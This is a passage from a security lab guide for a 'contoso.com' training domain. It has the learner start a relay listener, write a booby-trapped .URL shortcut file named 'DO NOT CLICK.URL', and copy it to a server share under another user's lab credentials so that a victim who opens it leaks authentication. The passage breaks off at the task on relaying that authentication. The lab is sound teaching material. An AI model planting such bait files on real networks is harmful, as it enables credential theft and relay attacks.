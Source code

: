     It starts to listen on connections on port 80. Leave that running.

    <details><summary>❓ Why the --no-smb-server? **Click here to see the answer**.</summary>
        The **--no-smb-server** parameter tells the script not to listen on the SMB port. Windows already listen on the port TCP 445 for SMB traffic. If you do not specify this parmeter, the script will complain about it. If you want to give it a try, you could stop and disable the Server service and restart the machine. Then you can use the script on the SMB port as it will no longer conflict with Windows.
        </details> 

    Now you are going to create a shortcut file to trick a user into clicking it... You will then place it on SRV01...

1. [] Right clicking on the Start menu ![image](.\IMG\11menu.png) and click on **Run**.

1. [] In the **Run** window, type `notepad.exe` and **OK**.

1. [] In the **Untitled - Notepad** window, enter the following:
    ```
    [{000214A0-0000-0000-C000-000000000046}]
    Prop3=19,2
    [InternetShortcut]
    IDList=
    URL=http://cli01.contoso.com/
    IconIndex=234
    HotKey=0
    IconFile=C:\Windows\System32\SHELL32.DLL
    ```

1. [] Click on **File** then **Save**. Navigate to `C:\Users\Public`, in the **File name** field type `DO NOT CLICK.URL `and in the **Save as type** pick **All files (\*,\*)**. Click **Save**.

    ⚠️ Do not double click on the file you just created, that's intended to de clicked only by the victim.

1. [] Right clicking on the Start menu ![image](.\IMG\11menu.png) and click on **Run**.

1. [] In the **Run** window, type `runas /user:connie.flores@contoso.com cmd.exe` and **OK**. When prompted, use the following password `NeverTrustAny1!`. 

    >[!help] The password will not show in the prompt. Once you have clicked on the ![image](.\IMG\ntw2poa5.jpg) in front of the password, hit the Enter key to validate the input. 

    This has open a new command prompt but as **Connie**.

1. [] In the new prompt called **cmd.exe (running as connie.flores@contoso.com)** run the following `copy "C:\Users\Public\DO NOT CLICK.URL" \\SRV01\C$`

Now we wait...


### Task 2 - Relay an authentication
